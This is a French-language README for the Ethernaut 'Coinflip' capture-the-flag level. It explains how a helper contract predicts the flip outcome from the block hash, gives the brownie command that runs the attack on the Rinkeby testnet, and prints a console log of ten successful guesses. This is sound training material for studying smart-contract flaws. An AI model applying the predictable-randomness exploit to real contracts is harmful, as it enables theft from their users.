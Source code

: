# Coinflip

## Objectif
L'objectif de ce challenge est de 'deviner' correctement 10 fois le résultat de coinflip.

## Deviner le résultat de coinflip

La méthode [`flip` du contrat](contracts/coinflip.sol#17) utilise la variable `lastHash` pour éviter que `flip` ne soit appellé plusieurs fois pour le même bloc.

La valeur résultat de `flip` étant seulement dépendant du numéro de bloc de la transaction, il est possible de calculer ce résultat par un autre contrat et faire l'appel à `flip` ensuite.

La méthode de calcul a été copié dans la [méthode `hack` du contrat `CoinFlipAttack`](contracts/coinflipAttack.sol#16)

Une fois le calcul effectué, l'appel à[`flip`](contracts/coinflipAttack.sol#22) est réalisé.


## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run ./scripts/attack.py main "0x1fc17cF30D907eAbf342a041632A4b345e952566" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

CoinflipProject is the active project.

Running 'scripts/attack.py::main'...
Target contract: 0x1fc17cF30D907eAbf342a041632A4b345e952566
Transaction sent: 0x6055fafd1c9221ba10c249a0c5143cd103fd69904e8e215e374971bdb3de0f3b
  Gas price: 1.000000009 gwei   Gas limit: 281425   Nonce: 203
  CoinFlipAttack.constructor confirmed   Block: 10289520   Gas used: 255841 (90.91%)
  CoinFlipAttack deployed at: 0xf5539F7dC61469cbFba58ff6C2591695cf05cD7d

Attack address: 0xf5539F7dC61469cbFba58ff6C2591695cf05cD7d
Transaction sent: 0x19f32772b81858b642e453f7255b6435ab6ad6ef5407259273d5be07c908755d
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 204
  CoinFlipAttack.hack confirmed   Block: 10289521   Gas used: 76105 (84.56%)

Transaction sent: 0x3d703bee4ca13e13beaaebbc468f9f39288269290ea93151c738421daa6c56ff
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 205
  CoinFlipAttack.hack confirmed   Block: 10289522   Gas used: 41905 (46.56%)

Transaction sent: 0xad802eb2584b683d7bc738c570ae2822735c6c8505b3c63ee5cd3f7e0201acb8
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 206
  CoinFlipAttack.hack confirmed   Block: 10289523   Gas used: 41905 (46.56%)

Transaction sent: 0xa7e262edc996e338845c758522a1d3bf298b7957bf49620cce1e0d7ff7ed4db1
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 207
  CoinFlipAttack.hack confirmed   Block: 10289524   Gas used: 41905 (46.56%)

Transaction sent: 0x87557ef0e6bf0615c89b00c5cd75139815c1a45d76198e12810819832fa16e3f
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 208
  CoinFlipAttack.hack confirmed   Block: 10289525   Gas used: 41925 (46.58%)

Transaction sent: 0x40a4182a177d87c723ac27d379cccf5e1aa2c7666a090d5952383c536ca4e56b
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 209
  CoinFlipAttack.hack confirmed   Block: 10289526   Gas used: 41905 (46.56%)

Transaction sent: 0x683238dc1dc594b554fbc49d91a2aae8a80ad327771228f3b904660a601fb153
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 210
  CoinFlipAttack.hack confirmed   Block: 10289527   Gas used: 41905 (46.56%)

Transaction sent: 0xf52f55453171cc0d5d27a54b6e08a2d96fc1070c0d4e17a48d22fe0b1908d90b
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 211
  CoinFlipAttack.hack confirmed   Block: 10289528   Gas used: 41925 (46.58%)

Transaction sent: 0x139d1fc05c0dbf17be01cd0ea6996bd723b012e6a04ef0680a04880591b94020
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 212
  CoinFlipAttack.hack confirmed   Block: 10289529   Gas used: 41905 (46.56%)

Transaction sent: 0xfa8df48b04ab79d7a4b66a8ce754c91b74178fa769fbbdbd40e3db19278c0362
  Gas price: 1.00000001 gwei   Gas limit: 90000   Nonce: 213
  CoinFlipAttack.hack confirmed   Block: 10289530   Gas used: 41925 (46.58%)

Nb ok: 10
Transaction sent: 0x74e680e4d438abef20ed6780d1ea36577e4c35f3a4a6dbc119563a623b2253eb
  Gas price: 1.00000001 gwei   Gas limit: 28821   Nonce: 214
  CoinFlipAttack.destroy confirmed   Block: 10289531   Gas used: 26201 (90.91%)
```


